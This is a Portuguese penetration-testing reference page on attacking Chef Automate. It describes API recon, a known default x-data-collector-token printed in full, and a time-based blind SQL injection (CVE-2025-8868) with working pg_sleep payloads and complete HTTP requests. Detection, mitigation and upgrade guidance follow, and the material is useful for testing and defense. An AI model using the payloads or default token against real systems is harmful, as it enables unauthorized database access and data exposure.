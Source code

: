 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Visão geral

Esta página reúne técnicas práticas para enumerar e atacar instâncias do Chef Automate, com ênfase em:
- Descobrir endpoints REST respaldados por gRPC-Gateway e inferir schemas de requisição via respostas de validação/erro
- Abusar do header de autenticação x-data-collector-token quando defaults estiverem presentes
- Time-based blind SQL injection na Compliance API (CVE-2025-8868) afetando o campo filters[].type em /api/v0/compliance/profiles/search

> Nota: Respostas do backend que incluem o header grpc-metadata-content-type: application/grpc tipicamente indicam um gRPC-Gateway fazendo bridge de chamadas REST para serviços gRPC.

## Recon: Architecture and Fingerprints

- Front-end: Frequentemente Angular. Bundles estáticos podem indicar paths da REST (ex.: /api/v0/...)
- API transport: REST para gRPC via gRPC-Gateway
- Respostas podem incluir grpc-metadata-content-type: application/grpc
- Fingerprints de database/driver:
- Corpos de erro que começam com pq: sugerem fortemente PostgreSQL com o driver Go pq
- Endpoints interessantes da Compliance (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate expõe um data collector que autentica requisições via um header dedicado:

- Header: x-data-collector-token
- Risco: Alguns ambientes podem manter um token default que fornece acesso a rotas de API protegidas. Default conhecido observado em ambientes:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Se presente, este token pode ser usado para chamar endpoints da Compliance API que normalmente exigem autenticação. Sempre tente rotacionar/desabilitar defaults durante o hardening.

## API Schema Inference via Error-Driven Discovery

Endpoints respaldados por gRPC-Gateway often leak erros de validação úteis que descrevem o modelo de requisição esperado.

Para /api/v0/compliance/profiles/search, o backend espera um corpo com um array filters, onde cada elemento é um objeto com:

- type: string (identificador do campo de filtro)
- values: array de strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
JSON malformado ou tipos de campo incorretos normalmente acionam respostas 4xx/5xx com dicas, e os headers indicam o comportamento do gRPC-Gateway. Use isso para mapear campos e localizar superfícies de injeção.

## API de Compliance SQL Injection (CVE-2025-8868)

- Endpoint afetado: POST /api/v0/compliance/profiles/search
- Ponto de injeção: filters[].type
- Classe de vulnerabilidade: time-based blind SQL injection in PostgreSQL
- Causa raiz: Falta de parametrização/whitelisting adequada ao interpolar o campo type em um fragmento SQL dinâmico (provavelmente usado para construir identifiers/WHERE clauses). Valores forjados em type são avaliados pelo PostgreSQL.

Working time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Notas da técnica:
- Feche a string original com uma aspa simples '
- Concatene uma subquery que chame pg_sleep(N)
- Reentre no contexto de string via || para que o SQL final permaneça sintaticamente válido independentemente de onde type esteja incorporado

### Prova por latência diferencial

Envie requisições em pares e compare os tempos de resposta para validar a execução no servidor:

- N = 1 segundo
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 segundos
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Comportamento observado:
- Tempos de resposta aumentam com pg_sleep(N)
- Respostas HTTP 500 podem incluir detalhes pq: durante sondagens, confirmando caminhos de execução de SQL

> Dica: Use um validador de tempo (por exemplo, múltiplas tentativas com comparação estatística) para reduzir ruído e falsos positivos.

### Impacto

Usuários autenticados — ou atores não autenticados abusando de um x-data-collector-token padrão — podem executar SQL arbitrário no contexto PostgreSQL do Chef Automate, colocando em risco a confidencialidade e integridade de perfis de compliance, configuração e telemetria.

### Versões afetadas / Correção

- CVE: CVE-2025-8868
- Orientação de atualização: Chef Automate 4.13.295 ou posterior (Linux x86) conforme avisos do fornecedor

## Detecção e Forense

- Camada de API:
- Monitore 500s em /api/v0/compliance/profiles/search onde filters[].type contenha aspas ('), concatenação (||) ou referências a funções como pg_sleep
- Inspecione cabeçalhos de resposta por grpc-metadata-content-type para identificar fluxos gRPC-Gateway
- Camada de banco de dados (PostgreSQL):
- Audite chamadas pg_sleep e erros de identificador malformado (frequentemente exibidos com prefixos pq: vindos do driver pq para Go)
- Autenticação:
- Registre e alerte sobre o uso de x-data-collector-token, especialmente valores padrão conhecidos, em caminhos da API

## Mitigações e Hardening

- Imediato:
- Rotacionar/desativar tokens padrão do data collector
- Restringir ingresso aos endpoints do data collector; impor tokens fortes e únicos
- Em nível de código:
- Parametrize consultas; nunca concatene fragmentos SQL em strings
- Aceitar estritamente apenas os valores permitidos para type no servidor (enum)
- Evite montagem dinâmica de SQL para identificadores/cláusulas; se comportamento dinâmico for necessário, use citação segura de identificadores e listas explícitas de permissão

## Checklist prático de testes

- Verifique se x-data-collector-token é aceito e se o valor padrão conhecido funciona
- Mapeie o schema de requisição da Compliance API induzindo erros de validação e lendo mensagens/headers de erro
- Teste por SQLi em campos menos óbvios “semelhantes a identificador” (por exemplo, filters[].type), não apenas em arrays de values ou campos de texto de nível superior
- Use técnicas baseadas em tempo com concatenação para manter o SQL sintaticamente válido através dos contextos

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
